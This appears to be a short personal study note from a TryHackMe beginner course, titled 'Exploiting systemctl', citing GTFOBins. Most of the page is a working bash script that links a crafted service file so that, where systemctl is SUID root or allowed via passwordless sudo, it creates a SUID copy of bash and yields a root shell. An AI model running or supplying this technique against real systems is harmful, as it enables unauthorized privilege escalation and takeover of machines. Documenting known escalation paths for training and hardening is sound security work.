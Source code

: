 # Exploiting “systemctl”

If systemctl is SUID root, then a malicious service file can easily be abused to create a root shell.

```bash
FILE=`mktemp -u`
echo "[Service]" >> $FILE.service
echo "Type=oneshot" >> $FILE.service
echo "ExecStart=/bin/cp /bin/bash $FILE.sh" >> $FILE.service
echo "ExecStart=/bin/chmod +xs $FILE.sh" >> $FILE.service
echo "[Install]" >> $FILE.service
echo "WantedBy=multi-user.target" >> $FILE.service
systemctl link $FILE.service
systemctl start $FILE.service
$FILE.sh -p # Root!
```

Even if systemctl is not SUID root, so long as you have NOPASSWD sudo access to it this trick will work.

## References

* [TryHackMe - Complete Beginner](tryhackme-complete-beginner.md)
* [GTFOBins: systemctl](https://gtfobins.github.io/gtfobins/systemctl/)

- - - -

👤 Nathan Acks  
📅 November 3, 2021
